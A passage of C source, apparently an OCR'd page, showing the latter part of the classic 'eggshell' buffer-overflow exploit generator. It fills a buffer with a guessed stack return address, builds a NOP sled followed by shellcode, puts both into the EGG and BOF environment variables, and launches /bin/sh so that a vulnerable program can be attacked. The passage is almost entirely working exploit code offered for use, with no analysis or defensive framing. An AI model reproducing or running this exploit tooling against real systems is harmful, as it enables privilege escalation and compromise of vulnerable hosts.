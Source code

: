       case 'o':
        offset = atoi(optarg);
        break;
      case '?':
        usage();
        exit(0);
    }

  if (strlen(shellcode) > eggsize) {
    printf("Shellcode is larger the the egg.\n");
    exit(0);
  }

  if (!(bof = malloc(bsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }
  if (!(egg = malloc(eggsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_sp() - offset;
  printf("[ Buffer size:\t%d\t\tEgg size:\t%d\tAligment:\t%d\t]\n",
    bsize, eggsize, align);
  printf("[ Address:\t0x%x\tOffset:\t\t%d\t\t\t\t]\n", addr, offset);

  addr_ptr = (long *) bof;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr = egg;
  for (i = 0; i <= eggsize - strlen(shellcode) - NOP_SIZE; i += NOP_SIZE)
    for (n = 0; n < NOP_SIZE; n++) {
      m = (n + align) % NOP_SIZE;
      *(ptr++) = nop[m];
    }

  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  bof[bsize - 1] = '\0';
  egg[eggsize - 1] = '\0';

  memcpy(egg,"EGG=",4);
  putenv(egg);

  memcpy(bof,"BOF=",4);
  putenv(bof);
  system("/bin/sh");
}

void usage(void) {
  (void)fprintf(stderr,
    "usage: eggshell [-a <alignment>] [-b <buffersize>] [-e <eggsize>] [-o <offset>]\n");
}
------------------------------------------------------------------------------
{% endhighlight %}
